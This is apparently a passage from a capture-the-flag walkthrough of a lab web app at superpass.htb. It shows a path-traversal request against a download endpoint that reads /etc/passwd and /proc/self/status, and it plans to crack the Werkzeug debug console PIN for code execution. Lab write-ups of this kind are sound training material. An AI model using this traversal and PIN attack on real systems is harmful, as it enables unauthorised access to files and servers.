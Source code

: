```text
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
corum:x:1000:1000:corum:/home/corum:/bin/bash
dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
mysql:x:109:112:MySQL Server,,,:/nonexistent:/bin/false
runner:x:1001:1001::/app/app-testing/:/bin/sh
edwards:x:1002:1002::/home/edwards:/bin/bash
dev_admin:x:1003:1003::/home/dev_admin:/bin/bash
_laurel:x:999:999::/var/log/laurel:/bin/false
```

We can notice some users :

- edwards
- dev_admin
- corum

`runner` account can be interesting also.

When looking at the exception when downloading a non-existing file, the Werkzeug application could allow us to open a debugging console, by clicking on the button on right  of python lines.

The access is locked with a PIN code :

![[Pasted image 20230707233128.png]]

This PIN can maybe be broken : https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug#pin-protected-path-traversal

Another article on this PIN code : https://www.bengrewell.com/cracking-flask-werkzeug-console-pin/

This acticle explains how to get crack the PIN code with a script that reproduce the code from werkzeug, and this require some parameters.

1. **username**

On linux, we can read `/proc/self/status` :

http://superpass.htb/download?fn=../proc/self/status

```text
Name:	gunicorn
Umask:	0022
State:	S (sleeping)
Tgid:	1073
Ngid:	0
Pid:	1073
PPid:	1072
TracerPid:	0
Uid:	33	33	33	33
Gid:	33	33	33	33
FDSize:	64
Groups:	33 
NStgid:	1073
NSpid:	1073
NSpgid:	1072
NSsid:	1072
VmPeak:	  291704 kB
VmSize:	  227192 kB
```
